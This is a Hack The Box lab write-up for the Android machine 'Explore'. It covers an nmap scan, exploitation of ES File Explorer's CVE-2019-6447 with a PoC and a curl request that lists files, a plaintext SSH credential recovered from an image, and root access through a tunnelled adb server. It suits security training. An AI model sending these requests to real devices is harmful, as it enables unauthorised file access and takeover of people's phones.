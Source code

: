 ```yaml
---
title: Hackthebox - Explore
date: 2021-06-28 00:00:00 +0530
categories: [hackthebox, android]
tags: [es file explorer, cve-2019–6447, adb]     # TAG names should always be lowercase
image: /assets/img/posts/explore/explore_banner.png
---
```



![](/assets/img/posts/explore/explore_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.247 explore.htb

**nmap scan:**
```bash
PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
34153/tcp open  unknown
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-server-header: ES Name Response Server
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

# Foothold

## ES File Explorer Open Port Vulnerability

**[CVE-2019–6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447):** The ES File Explorer File Manager application through 4.1.9.7.4 for Android allows remote attackers to read arbitrary files or execute applications via TCP port 59777 requests on the local Wi-Fi network. This TCP port remains open after the ES application has been launched once, and responds to unauthenticated application/json data over HTTP.

* Exploit PoC: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
* [Analysis of ES File Explorer Security Vulnerability(CVE-2019–6447)](https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566)

```bash
python es_poc.py --cmd getDeviceInfo --ip 10.10.10.247
```

![](/assets/img/posts/explore/es-poc.png)

while exploring ES File Explorer server commands found an interesting file with `listPics` 

![](/assets/img/posts/explore/creds-in-img.png)

this PoC script only sending POST request with json data to the server with commands that server can execute, we can simply do this with curl. *demonstrated in the [PoC](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)*

```bash
❯ curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://10.10.10.247:59777
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
]
```

![](/assets/img/posts/explore/creds.jpg)
<!--kristi:Kr1sT!5h@Rp3xPl0r3!-->

and get the ssh creds.

# Privesc

## `adb` Root

Device is running adb server
```bash
:/sdcard $ ss -lntp
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN      0      4            *:5555                     *:*
```

It is listening on all networks but somehow it is not working remotely.

Using ssh tunnel to forward port and run adb to get root.

![](/assets/img/posts/explore/adb-root.png)

root flag found in `/data`
```bash
x86_64:/ # find / -type f -name root.txt 2>/dev/null
/data/root.txt
```